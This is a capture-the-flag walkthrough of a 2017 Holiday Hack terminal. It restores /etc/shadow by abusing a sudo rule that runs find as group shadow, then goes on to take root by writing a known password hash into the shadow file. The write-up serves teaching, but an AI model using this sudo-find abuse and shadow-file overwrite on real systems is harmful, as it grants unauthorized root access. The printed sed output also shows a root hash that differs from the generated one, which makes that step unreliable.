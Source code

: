 * Oh Wait! Maybe WE Are...
   :PROPERTIES:
   :CUSTOM_ID: title
   :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

** How to find the terminal
   :PROPERTIES:
   :CUSTOM_ID: how-to-find-the-terminal
   :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system MOTD gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC sh
elf@40a64f5e12a2:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

** Hints
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

[[https://twitter.com/ClimbALLdaTrees][Shinny Upatree on Twitter has a few hints]]
  * [[https://twitter.com/ClimbALLdaTrees/status/938578034113765376][You know that feeling when something horrible has happened? So I was editing /etc/shadow manually, and... well:
$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec  7 01:13 /etc/shadow

@1Horse1OSSleigh tells me the "Non-default shadow group permissions" might help.... okay?]
  * [[https://twitter.com/ClimbALLdaTrees/status/938578359860174848][I think I have some pseudo (sp?) permissions on this Unix server, but I don't know what that means. @GreenesterElf said this was a "learning opportunity" and won't give me the answer :'(]]

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC sh
elf@40a64f5e12a2:~$ sudo --list
Matching Defaults entries for elf on 40a64f5e12a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 40a64f5e12a2:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -l -l
Matching Defaults entries for elf on 2100915cb450:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 2100915cb450:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC sh
elf@2100915cb450:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC sh
elf@2100915cb450:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

A one-liner is:

#+BEGIN_SRC sh
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

AsciiCinema video of the solution?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

** Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC sh
elf@2100915cb450:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC sh
elf@2100915cb450:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@2100915cb450:~$ su
Password: 
root@2100915cb450:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
